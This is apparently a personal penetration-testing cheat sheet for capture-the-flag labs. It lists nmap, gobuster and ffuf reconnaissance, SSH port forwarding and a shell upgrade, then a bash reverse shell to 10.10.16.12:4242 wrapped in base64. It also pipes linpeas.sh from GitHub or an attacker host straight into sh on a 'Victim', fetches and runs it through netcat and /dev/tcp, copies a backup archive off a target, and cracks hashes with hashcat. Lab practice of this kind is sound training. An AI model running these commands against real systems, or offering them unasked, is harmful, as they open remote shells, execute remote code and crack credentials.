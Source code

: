 # prep
## Useful commands
sudo nmap -sC -sV -vv -p- 10.10.11.221

## dirs 
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u domain.name

## subdomains:
gobuster vhost -u http://domain.domain \
-w ~/Downloads/subdomains \
--append-domain -t 50


ffuf -c -ac -w ~/Downloads/subdomains-10000.txt -H 'Host: FUZZ.domain.name' -u http://domainname 

## ssh pivot
ssh -L 1234:localhost:8080 rosa@10.10.11.38 
connect using localhost:1234

python3 -c 'import pty; pty.spawn("/bin/sh")'

base64
echo -n 'bash -i >& /dev/tcp/10.10.16.12/4242 0>&1' | base64 

## SCP
scp user@10.10.11.74:/var/backup/backup.tar.gz .

## leanpeas path
cd /usr/share/peass/
## From public github
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh

## Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

## Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim


## hashcat basic
hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt --force


## docker folder - build with dockerfile
sudo docker build -t dockername . 
sudo docker run -it -v $(pwd):/app dockername


##hash
echo 'pass'| base64 -d > bcrypt.hash
